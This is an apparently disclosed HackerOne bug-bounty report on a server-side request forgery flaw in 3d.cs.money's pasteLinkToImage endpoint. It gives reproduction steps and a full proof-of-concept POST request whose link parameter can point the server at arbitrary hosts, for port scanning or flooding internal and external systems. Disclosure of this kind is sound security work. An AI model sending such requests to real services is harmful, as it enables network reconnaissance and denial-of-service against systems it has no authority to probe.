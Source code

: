 # SSRF via 3d.cs.money/pasteLinkToImage

## Report Details
- **Report ID**: 832858
- **URL**: https://hackerone.com/reports/832858
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-03-27T16:21:09.705Z
- **Disclosed**: 2020-03-31T14:12:07.098Z

## Reporter
- **Username**: putsi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: cs_money

## Vulnerability Information
## Summary:
SSRF via 3d.cs.money/pasteLinkToImage

The functionality fails to validate URL in link-parameter allowing attacker to create server-side request forgery attacks.
As the server does a full HTTP-request, this can for example be used to:
- DDoS-attacks towards internal and external hosts.
- Portscan internal hosts.

## Steps To Reproduce:

  1. Place proper cookies to the attached request.
  1. Place targeted URL in the link-parameter.
  1. Send the request and notice that the server sent a HTTP-request to the targeted host.

## Supporting Material/References:

PoC-request:
```
POST /pasteLinkToImage HTTP/1.1
Host: 3d.cs.money
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: application/json, text/plain, */*
Accept-Language: fi-FI,fi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 82
Origin: https://3d.cs.money
Connection: close
Referer: https://3d.cs.money/
Cookie: INSERT_PRIME_COOKIES_HERE

{"link":"http:/INSERT_TARGET_URL_HERE"}
```

## Impact

- DDoS-attacks towards internal and external hosts.
- Portscan internal hosts.

## Attachments
No attachments
